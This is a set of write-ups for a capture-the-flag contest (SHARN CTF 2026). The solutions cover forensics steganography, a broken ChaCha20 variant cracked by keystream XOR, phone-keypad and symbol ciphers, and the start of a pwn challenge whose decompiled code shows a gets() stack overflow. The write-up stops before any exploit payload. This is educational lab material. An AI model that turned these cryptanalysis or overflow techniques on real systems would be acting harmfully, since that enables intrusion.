


Below are the writeups to the problems of [SHARN CTF 2026](https://sharn-ctf.pclub.in/). Problems were attempted by 17 teams, with logarithmic decay of points, reaching a minimum of 50 points after 10 solves.

## Forensics 
### The space transmit - 420 points

Challenge description:
```
Our deep-space probe transmitted a raw sensor dump after a multiplexer fault. 
The imaging system uses a dual-frame RGB sensor array, but it had synchronization failure. 
And now we are left with one unidentified file.

Calibration log excerpt: 
WIDTH: 2500 
FORMAT: RGB
```

We are given a file `challenge.bin`. When checked with the `file` command,it returns `$data`. The challenge has no known headers confirmed by the `xxd` command. Also nothing clear result with other common forensic tools.

The challenge description says we were transmitted a sensor dump, implying we have the bits of the data. Also it says the orginal files were `images`. And the dump was caused by a fault of multiplexer. 

The challenge says the system used a `dual-frame RGB` sensor hinting upon presence of two images. And synchronisation failure gives that now the two seperate frames are now **interleaved** instead of second one coming after the first one completes. The interleav may be `byte-by-byte(i.e. A-red,B-red,A-green,B-green,A-blue,B-blue…)` or `pixel-by-pixel(i.e. (A-red,A-green,A-blue),(B-red,B-green,B-blue)…)`. 

The description gives the format to be RGB. Each pixel is represented by `3 bytes`. This is important detail because it tells us we need to divide the byte stream by 3 to find pixel counts.

The challenge gives the width of the image as `2500`.

#### Height calculation:

On checking the **file size**:

```
$ ls -l challenge.bin 
-rw-rw-r-- 1 0xrj 0xrj 22500000 Apr  3 18:31 challenge.bin
```
The data has size `22500000 bytes`

Since it is RGB (3 bytes/pixel), the **total number of pixels** in the entire file is:

22,500,000/3=`7,500,000 pixels`.

The description had "dual-frame" so we divide by 2. This gives us `3,750,000 pixels per image`.

$$Height = \frac{3,750,000}{2,500} = 1500$$

> So we have two 2500x1500 RGB images interleaved together.

#### De-interleaving the images:

We have the dimensions of the two images, i.e., 2500x1500. Now we have to take out both images. Addressing the Synchronization failure, we can take out both the cases of interleav, byte-by-byte and pixel-by-pixel, but further proceeding in the challenge we see the `byte-by-byte` interleaving is present here.

We can use Python script to slice the data. By starting at `index 0` and taking every `second byte`, we recover Image A. Starting at `index 1` and taking every second byte recovers Image B.

Script:
```
import numpy as np
from PIL import Image

data = np.fromfile("challenge.bin", dtype=np.uint8)

# De-interleave the two streams
# share_a takes every byte at an even index (0, 2, 4...)
# share_b takes every byte at an odd index (1, 3, 5...)
share_a_raw = data[0::2]
share_b_raw = data[1::2]

# 3. Reshape using calculated dimensions (1500H x 2500W x 3 RGB)
width, height = 2500, 1500
img_a = share_a_raw.reshape((height, width, 3))
img_b = share_b_raw.reshape((height, width, 3))

# 4. Save the images
Image.fromarray(img_a).save("img_a.png")
Image.fromarray(img_b).save("img_b.png")

print("Successfully extracted img_a.png and img_b.png")

```


Finally we get two images. They look random noised images. No flags still. This can be understood to be `Visual One-Time Pad`. The flag has been hidden using a bitwise XOR operation.

- image A is a random key.
- image B is the result of Key ^ Flag.

```math
    \text{Share A} \oplus \text{Share B} = \text{Noise} \oplus (\text{Noise} \oplus \text{Flag}) = \text{Flag}
```

>A visual one-time pad (OTP) encrypts an image by combining it with a random "key" image of the same size using a pixel-wise XOR operation.

Finally xoring:

```
# 5. Perform bitwise XOR to cancel the noise
flag_raw = np.bitwise_xor(img_a, img_b)

# Save the final result
Image.fromarray(flag_raw).save("reconstructed_flag.png")
```
We get the flag:
```
sharn{w3lc0m3_f0r3s73r_r}
```

### Blind Picasso - 460 points
We were given the description `Decode this.` and a `chal.pcapng` file.
Opening the file we see many USB protocol packets being sent and received. An `URB_INTERRUPT in` packet is extremely common when dealing with Human Interface Devices (HIDs) such as keyboards or mice.
Now there are two types of packets in there, one is from `7.2.1` to `host` containing 64 bytes worth of data and another is from `host` to `7.2.1` containing 69 bytes worth of data.
We are interested only in the 69 bytes data as they are the only one containing the payload (HID input). You can confirm that by reading the first packet info and finding `Data length [bytes]: 5` and `Leftover Capture Data: 00ff0f0000`.
So what we now want is to dump all that data, the timestamps and payload into a proper format to parse it. We can do that by the `tshark` cmd:
`tshark -r chal.pcapng -Y "usb.transfer_type == 0x01" -T fields -e frame.time_epoch -e usb.capdata -E header=y -E separator=, -E quote=d > raw_data.csv`
`-e usb.capdata` will be the one taking out our 5 byte payload.
raw_data.csv will look like:


| frame.time_epoch | usb.capdata |
| -------- | -------- | 
| 1774445851.31132     | 00ff0f0000     | 

Now the payload is divided like this:
Byte 0 (payload[0:2]) : Button states
    - payload[0:2] & 1: Checks the lowest bit (Bit 0). If it equals 1, the Left Mouse Button is clicked.
    - payload[0:2] & 2: Checks the second bit (Bit 1). If it equals 1, the Right Mouse Button is clicked.
Byte 1 and 2 : **Relative** X and Y Movement (payload[2:4] and payload[4:6])

So looking at `00ff0f0000`:
* Byte 0 (00): No main buttons pressed. 
* Byte 1 (ff): X-axis moved left (-1). 
* Byte 2 (0f): Y-axis moved down (+15). 
* Byte 3 (00): Scroll wheel was not moving. 
* Byte 4 (00): No extra buttons pressed..

Parsing this `raw_data.csv` into a new file and then plotting those mouse movements with the left button pressed and adjusting for scaling of the axes we will get our flag.

`sharn{dr4wing_w1th_p4cke7s}`

### Hidden Hook - 482 points
I made it this challenge with the main challenge being about `zero-width unicode`. We were provided with the description
```
A harmless looking video file has been shared with you.
The truth isn’t always on the screen, and not everything hidden is invisible in the same way.
```
and a `NPTEL.mp4` file.
Initial attempt to find something would lead to using `binwalk` and finding the image `RICKROLL` text.
Playing the video, there isn't anything wrong with it, standard video with subtitles. 
Now, "The truth isn’t always on the screen...", this already rules anything to do with image/video, like LSB, or averaging the frames for something, or some hidden QR code.\
Only thing that was in front of our eyes and not played with yet was the subtitles. You can extract the subtitles using `ffmpeg` tool like `ffmpeg -i NPTEL.mp4 -map 0:s:0 subs.srt`.

The rest of the description hinted at something being invisible but *not in the same way*.
If one were to feed this `subs.srt` directly into ChatGPT or something similar, you would have gotten the hidden hex payload. One could also write a simple python script to do so.
Now XORing that payload with our `RICKROLL` text we found initially would spit out our flag.

`sharn{h1dd3n_b37w33n_fr4m35_4nd_l1n35}`

### Silent Timber - 500 points 
The only unsolved one ToT. I thought that the description was enough but I think it may have been a bit guessy.
So, we were given the description:
```
We intercepted this image from a known operative. Standard extraction tools all return pure static.
The operative's only note to their receiver was: 'To walk unseen, step only where the canopy breaks. The payload is buried directly in the chaos of the deepest azure.
```
and a `challenge.png` which was an image taken from Hall 13 cycle parking terrace.

It was already given that *"Standard extraction tools all return pure static."*, so right off the bat, it wasn;t anything standard.
Breaking the description one-by-one, *"payload is buried directly in the chaos of the deepest azure"*, I think that this was pretty enough to understand that it was something to do with the LSB (*chaos*) of the Blue channel (*deepest azure*).
Moving on, *"step only where the canopy breaks"*, this referred to the boundary of the canopy, the *edge*. 

Now I wanted to hide the data in a way that it won't make the image weird in the sense that yeah there is something fishy there.
That's why I went on with hiding the data along the *edge* of the canopy, as the photo is not that sharp and there already is higher noise in that region.

Going towards edge-detection there are first-order derivative filters, they calculate the gradient of image intensity and give thick, blurry edges. Hence, not optimum to hide data.
Canny is the common, majorly used one, but the very first step of Canny detection is *blurring*. So not that one too.
Now, comes the *Laplacian*, the second-order derivative. It looks for the **exact point** where the slope changes direction. So, yes good candidate.

The problem with Laplacian is that its too sensitive. Imagine this, you are hiding data in the LSB right, toggling it between 1 and 0. After hiding this data, now that pixel is changed a bit, and due to the Laplacian being too sensitive, the edge detected by it before and after encoding will not be the same. Kind of an "Avalanche" effect.

So, the solution to this is masking the last bit. This would create a fixed mathematical reference point that wouldn't change when we added the secret data. For this we used `img & ~1`.

If one couldn't reason till here, the hint:
```
The secret isn't in the colors you see, but in the sharpest parts of the canopy. 
Be warned, the data itself is a ghost that shifts the edges.
```
*"the data itself is a ghost that shifts the edges"* hinted towards the masking bit.

So pretty much the challenge ends here. You just have to take the image, strip the LSBs and rebuild the map, then move along the map, noting the LSBs along it and then converting that one long bit string into text.

Effective script used to decode:
```
import cv2
import numpy as np

stego_img = cv2.imread('../test/challenge.png')

# isolate the blue channel
blue_channel = stego_img[:, :, 0]

# strip the poisoned LSBs to rebuild the map
base_blue = blue_channel & ~1
laplacian = cv2.Laplacian(base_blue, cv2.CV_64F)
texture_map = np.abs(laplacian)

THRESHOLD = 50
valid_pixels = np.argwhere(texture_map > THRESHOLD)

# take the bits from the blue channel
extracted_bits = []
for i in range(500): # enough length to get the whole flag
    y, x = valid_pixels[i]
    bit = stego_img[y, x, 0] & 1
    extracted_bits.append(str(bit))

bit_string = "".join(extracted_bits)
# standard ascii conversion from binary to text hereafter
```
Output:
```
Raw Binary Length: 500 bits
Payload:

sharn{m45k_th3_LSB_t0_w4lk_th3_3dg3}¾ÎóFxÑrXåY3øÍ_~W
```

`sharn{m45k_th3_LSB_t0_w4lk_th3_3dg3}`

## Crypto
### Ain't I So Smart? - 136 points
This might have been a chall where giving it to GPT or something similar was enough to get the flag.
Nevertheless, we were given the decription:
```
The original ChaCha20 is great, but the arithmetic mixing in the quarter-rounds is unnecessarily slow. 
I profiled the code and stripped out the expensive operations. 
It turns out you get the exact same level of diffusion with a much simpler, carry-less structure. 
Blazing fast, zero security loss. Have at it!
```
and files named `chacha20.py` and `output.txt`.

If you know about Chacha20, you would notice that the *big brain move* the above person did was that they replaced all the 32-bit modular addition operation (+) with bitwise XORs (^) as it was taking up too many clock cycles and XOR is essentially just *carry-less addition*.

Standard ChaCha20 relies on Addition, Rotation, and XOR. Modular addition is non-linear. By replacing addition with XOR, the developer removed the only non-linear component of the cipher.

If the cipher is perfectly linear, the effect of the key and the effect of the iv are completely independent of each other. 
Because there are no non-linear mixing operations, the final keystream equation can be separated into distinct parts:

$$
Keystream = f_{key}(Key) \oplus f_{iv}(IV) \oplus Constants
$$

Let's look at the actual keystreams for iv1 ($KS_1$) and iv2 ($KS_2$):

$$KS_1 = f_{key}(RealKey) \oplus f_{iv}(iv_1) \oplus Constants$$

$$KS_2 = f_{key}(RealKey) \oplus f_{iv}(iv_2) \oplus Constants$$

If you XOR those two actual keystreams together, the $RealKey$ and the $Constants$ completely cancel out:
$$KS_1 \oplus KS_2 = f_{iv}(iv_1) \oplus f_{iv}(iv_2)$$
Effective script:
```
# recover the actual KS1 using the known plaintext
KS1 = bytes(a ^ b for a, b in zip(msg, msg_enc))

# compute the keystream difference using a dummy key (all zeros)
c_dummy = OptimizedChaCha20()
dummy_key = b'\x00' * 32
dummy_plain = b'\x00' * 64

dummy_KS1 = c_dummy.encrypt(dummy_plain, dummy_key, iv1)
dummy_KS2 = c_dummy.encrypt(dummy_plain, dummy_key, iv2)

delta_KS = bytes(a ^ b for a, b in zip(dummy_KS1, dummy_KS2))

# calculate actual KS2
KS2 = bytes(a ^ b for a, b in zip(KS1, delta_KS))

flag = bytes(a ^ b for a, b in zip(flag_enc, KS2[:len(flag_enc)]))
```


`sharn{l1n34r_4lg3br4_d3f3475_ch4ch420}`

PS: "I use arch, btw!" `self._state = [0x73752049, 0x72612065, 0x202c6863, 0x21777462]`

### Old friend - 260 points
Challenge description:
```
The same old phone of yours but with a twist!!

    Flag format: The text found enclosed in sharn{}. All the letters should be in lowercase.
```
The challenge gave a .txt file with a number inside it. 
> The number : 9680587803686306906377243

The challenge hinted its something related to old styled phones. One of straight approach of such challenges would be treating it as a cipher and finding which one it is. If we search for ciphers related to old phones we get some options: `Multi-Tap Cipher`, `T9 Cipher`, `The Phone Keypad Cipher (Coordinate Cipher)`, etc. 

Alternatively, if we use some cipher identifier such as `dcode cipher identifier`, it gives high probabilty of `T9 Cipher`.

When we use the `T9 decoder` of **dcode** on the given number:



The formed words with meaning:
`you`, `just`,`found`,`my`,`message`

So, the **flag** according to the given flag format:
```
sharn{youjustfoundmymessage}
```


### The dots and boxes of Ci - 496 points

Challenge description:
```
Dots and boxes fr!!!!! ahhhhhhhh

flag is the key found enclosed in sharn{}, all lowercase.
```

Challenge file shows some boxes with some pattern of dots and filled grids. 
Intutively it points towards some symbol cipher as being a crypto challenge.

If searched for list of symbol ciphers we get `dcode.fr` has a list containing symbol ciphers. Searching over the list we see `Friderici Cipher (Windows)`has the pattern similar to that of the challenge. Also the challenge description has `fr` hinting the cipher we found is correct.

By entering the patterns one by one in the decoder, we get the flag:
```
sharn{symbolshereandthereahhhh}
```

## Pwn
### retro-game - 388 points

#### Challenge Description
>A hidden developer console was left inside a game cartridge build.
It allows listing and loading assets, but certain functionality is restricted.
Find a way to bypass these restrictions and access the protected content.


* Files attached - `chall` binary

#### Analysis of binary.
```
$ file chall     
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6d724273500a00ef3e0cf41d59ba977c7fed0865, for GNU/Linux 4.4.0, not stripped
$ pwn checksec chall                                       
[*] '/home/ash/extra/home/ash/sharn/chall'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found 
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No
```

```
$ ./chall
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣤⣤⣤⣤⣄⣀⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⣤⠶⣻⠝⠋⠠⠔⠛⠁⡀⠀⠈⢉⡙⠓⠶⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⠞⢋⣴⡮⠓⠋⠀⠀⢄⠀⠀⠉⠢⣄⠀⠈⠁⠀⡀⠙⢶⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⠞⢁⣔⠟⠁⠀⠀⠀⠀⠀⠈⡆⠀⠀⠀⠈⢦⡀⠀⠀⠘⢯⢢⠙⢦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡼⠃⠀⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠸⠀⠀⠀⠀⠀⢳⣦⡀⠀⠀⢯⠀⠈⣷⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣾⠆⡄⢠⢧⠀⣸⠀⠀⠀⠀⠀⠀⠀⢰⠀⣄⠀⠀⠀⠀⢳⡈⢶⡦⣿⣷⣿⢉⣷⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⣯⣿⣁⡟⠈⠣⡇⠀⠀⢸⠀⠀⠀⠀⢸⡄⠘⡄⠀⠀⠀⠈⢿⢾⣿⣾⢾⠙⠻⣾⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⡿⣮⠇⢙⠷⢄⣸⡗⡆⠀⢘⠀⠀⠀⠀⢸⠧⠀⢣⠀⠀⠀⡀⡸⣿⣿⠘⡎⢆⠈⢳⣽⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⢠⡟⢻⢷⣄⠀⠀⠀⠀⠀⠀⣾⣳⡿⡸⢀⣿⠀⠀⢸⠙⠁⠀⠼⠀⠀⠀⠀⢸⣇⠠⡼⡤⠴⢋⣽⣱⢿⣧⠀⢳⠈⢧⠀⢻⣿⣧⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⢀⡿⣠⡣⠃⣿⠃⠀⠀⠀⠀⣸⣳⣿⠇⣇⢸⣿⢸⣠⠼⠀⠀⠀⡇⠀⡀⠉⠒⣾⢾⣆⢟⣳⡶⠓⠶⠿⢼⣿⣇⠈⡇⠘⢆⠈⢿⡘⣷⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠈⢷⣍⣤⡶⣿⡄⠀⠀⠀⢠⣿⠃⣿⠀⡏⢸⣿⣿⠀⢸⠀⠀⢠⡗⢀⠇⠀⢠⡟⠀⠻⣾⣿⠀⠀⠀⠀⡏⣿⣿⡀⢹⡀⠈⢦⠈⢷⣿⡆⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢁⣤⣄⠁⠀⠀⠀⣼⡏⢰⣟⠀⣇⠘⣿⣿⣾⣾⣆⢀⣾⠃⣼⢠⣶⣿⣭⣷⣶⣾⣿⣤⠀⠀⠀⡇⡯⣍⣧⠀⣷⠄⠈⢳⡀⢻⡁⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠺⣿⡿⠀⠀⠀⠀⡿⢀⣾⣧⠀⡗⡄⢿⣿⡙⣽⣿⣟⠛⠚⠛⠙⠉⢹⣿⣿⣦⠀⢸⡿⠀⠀⠀⢰⡯⣌⢻⡀⢸⢠⢰⡄⠹⡷⣿⣦⣤⠤⣶⡇⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⠀⠀⣇⣾⣿⢸⢠⣧⢧⠘⣿⡇⠸⣿⢿⡆⠀⠀⠀⠀⠘⣯⠇⣿⠂⣸⢰⠀⠀⢀⣸⡧⣊⣼⡇⢸⣼⣸⣷⢣⢻⣄⠉⠙⠛⠉⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣳⣤⣴⣿⣏⣿⣾⢸⣿⡘⣧⣘⢿⣀⡙⣞⠁⠀⠀⠀⠀⢀⡬⢀⣉⢠⣧⡏⠀⠀⡎⣿⣿⣿⣿⠃⣸⡏⣿⣿⡎⢿⡘⡆⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠉⣠⣼⣿⣿⣿⣼⣿⣧⢿⣿⣿⣯⡻⠟⠀⠀⠀⠀⠀⠐⢯⠣⡽⢟⣽⠀⠀⢘⡇⣿⣿⣿⡟⣴⣿⣷⣿⣿⣧⣿⣷⡽⠀⠀⠀⠀⠀⠀⠀
        ⣀⣀⣀⣀⣀⣀⣀⣀⣀⣀⣀⣀⣀⣀⣀⣼⣹⣿⣇⣸⣿⣿⣿⣻⣚⣿⡿⣿⣿⣦⣤⣀⡉⠃⠀⢀⣀⣤⡶⠛⡏⠀⢀⣼⢸⣿⣿⣿⣿⣿⣿⣿⢋⣿⣿⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀
        ⣿⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠒⠒⠒⢭⢻⣽⣿⣿⣿⣿⣿⣿⢿⠿⣿⡏⠀⡼⠁⣀⣾⣿⣿⣿⣿⡿⣿⣿⣟⡻⣿⣿⡿⠣⠟⠀⠀⠀⠀⠀⠀⠀⠀
        ⠸⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⢧⢿⣯⡽⠿⠛⠋⣵⢟⣋⣿⣶⣞⣤⣾⣿⣿⡟⢉⡿⢋⠻⢯⡉⢻⡟⢿⡅⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⢻⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⡞⣿⣆⡀⠀⡼⡏⠉⠚⠭⢉⣠⠬⠛⠛⢁⡴⣫⠖⠁⠀⠀⣩⠟⠁⣸⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠈⢷⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣽⣿⣿⣾⠳⡙⣦⡤⠜⠊⠁⠀⣀⡴⠯⠾⠗⠒⠒⠛⠛⠛⠛⠛⠓⠿⣦⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠘⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠰⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢷⣻⣿⣿⠔⢪⠓⠬⢍⠉⣩⣽⢻⣤⣶⣦⠀⠀⠀⢀⣀⣤⣴⣾⣿⣿⣿⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠹⡆⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣾⡏⢦⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣯⣿⣿⠀⠀⣇⠀⣠⠎⠁⢹⡎⡟⡏⣷⣶⠿⠛⡟⠛⠛⣫⠟⠉⢿⣿⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⢻⡄⠀⠀⠀⠀⠀⠀⠀⠀⠹⣿⣷⠈⢷⡤⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⣾⣷⡀⣀⣀⣷⡅⠀⠀⠈⣷⢳⡇⣿⠀⠀⣸⠁⢠⡾⣟⣛⣻⣟⡿⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⢷⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢯⢻⣏⡵⠿⠿⢤⣄⠀⢀⣿⢸⣹⣿⣀⣴⣿⣴⣿⣛⠋⠉⠉⡉⠛⣿⣧⡀⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠘⣧⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⡎⣿⣥⣶⠖⢉⣿⡿⣿⣿⡿⣿⣟⠿⠿⣿⣿⣿⡯⠻⣿⣿⣿⣷⡽⣿⡗⠀⠀⠀⠀⠀⠀⠀
        ⠀⠀⠀⠀⠀⠀⠸⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⡘⣿⣩⠶⣛⣋⡽⠿⣷⢬⣙⣻⣿⣿⣿⣯⣛⠳⣤⣬⡻⣿⣿⣿⣿⣧⠀⠀⠀⠀⠀⠀⠀
        ⠀⣿⣛⣻⣿⡿⠿⠟⠗⠶⠶⠶⠶⠤⠤⢤⠤⡤⢤⣤⣤⣤⣤⣄⣀⣀⣀⣀⣀⣀⣀⣀⣣⢹⣷⣶⣿⣿⣦⣴⣟⣛⣯⣤⣿⣿⣿⣿⣿⣷⣌⣿⣿⣿⣿⣿⣿⣿⣤⣤⣤⣤⣤⣤⣄
        ⠀⠉⠙⠛⠛⠛⠛⠛⠻⠿⠿⠿⠷⠶⠶⢶⣶⣶⣶⣶⣤⣤⣤⣤⣤⣥⣬⣭⣭⣉⣩⣍⣙⣏⣉⣏⣽⣶⣶⣶⣤⣤⣬⣤⣤⣾⣿⠶⠾⠿⠿⠿⠿⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠛⠃
        ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠉⠉⠉⠉⠉⠉⠛⠛⠛⠛⠛⠛⠋⠉⠉⠉⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀

[DEBUG] menu @ 0x5557280ad490

======================================================================================
                          CARTRIDGE DEBUG INTERFACE v1.3  
======================================================================================
      1. List available assets
      2. Load asset from cartridge
      3. Exit interface
> 1

[INFO] Scanning cartridge for available assets...

 - Dockerfile
 - retro-game.7z
 - chall
 - a.c
 - a.py
 - art.txt
 - flag.txt

======================================================================================
                          CARTRIDGE DEBUG INTERFACE v1.3  
======================================================================================
      1. List available assets
      2. Load asset from cartridge
      3. Exit interface
> 2

Enter asset name to load from cartridge memory:
asset> chall

Rendering asset contents...

H��[INFO] Scanning cartridge for available assets...u�H�E�H����������UH��H���}��}���7tH�`
Enter asset name to load from cartridge memory:y be corrupted or missing.Rendering asset contents...

[DEBUG] menu @ %p
======================================================================================G INTERFACE v1.3  vailable assets @__do_global_dtors_aux_fini_array_entry_FRAME_HDR52.2.5LIBC_2.38strstr@GLIBC_2.2.5.rela.dyn.dynami 
======================================================================================
                          CARTRIDGE DEBUG INTERFACE v1.3  
======================================================================================
      1. List available assets
      2. Load asset from cartridge
      3. Exit interface
> 2

Enter asset name to load from cartridge memory:
asset> flag.txt
This asset is restricted :)

======================================================================================
                          CARTRIDGE DEBUG INTERFACE v1.3  
======================================================================================
      1. List available assets
      2. Load asset from cartridge
      3. Exit interface
> 2

Enter asset name to load from cartridge memory:
asset> JUST_A_REALLY_LONG_STRING_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA                                                                   
Asset could not be loaded. It may be corrupted or missing.
[3]    188053 segmentation fault (core dumped)  ./chall
```
Okay what do we know about binary yet...
- Its a x86-64 Linux binary with no stack canary.
- PIE is enabled. So we'll need 
- The binary allows 3 functionalities
    1. Lists out all the files in the directory.
    2. Read out any file except flag.txt.
    3. Exit the Interface.
- The option 2 asks for file name to print out the contents of. Sending a really long string makes the program error out into segmentation fault.

For further investigation, spin out a decompiler of your choice (ghidra,ida or binary ninja)
Here are some important functions in the binary.
```
void menu()
{
    int c;
    print_art();
    printf("\n\n[DEBUG] menu @ %p\n", menu);


    while (1)
    {

        puts("\n======================================================================================");
        puts("                          CARTRIDGE DEBUG INTERFACE v1.3  ");
        puts("======================================================================================");
        puts("      1. List available assets");
        puts("      2. Load asset from cartridge");
        puts("      3. Exit interface");
        printf("> ");

        scanf("%d", &c);
        getchar();

        switch (c)
        {
            case 1:
                list_assets();
                break;
            case 2:
                load_asset();
                break;
            case 3:
                puts("Shutting down interface...");
                exit(0);
            default:
                puts("Invalid selection.");
        }
    }
}


int list_assets()
{
    struct dirent *d;
    DIR *dir = opendir(".");

    if (!dir)
        return puts("[ERROR] Failed to access cartridge filesystem.");

    puts("\n[INFO] Scanning cartridge for available assets...\n");

    while ((d = readdir(dir)))
    {
        if (d->d_name[0] != '.')
            printf(" - %s\n", d->d_name);
    }

    return closedir(dir);
}

int load_asset()
{
    char name[64];
    FILE *f;
    char buf[128];

    puts("\nEnter asset name to load from cartridge memory:");
    printf("asset> ");

    gets(name);   //  vulnerability

    if (strstr(name, "flag"))
    {
        puts("This asset is restricted :)");
        return 0;
    }

    f = fopen(name, "r");
    if (!f)
    {
        puts("Asset could not be loaded. It may be corrupted or missing.");
        return 0;
    }

    puts("\nRendering asset contents...\n");

    while (fgets(buf, sizeof(buf), f))
        printf("%s", buf);

    fclose(f);
    return 0;
}

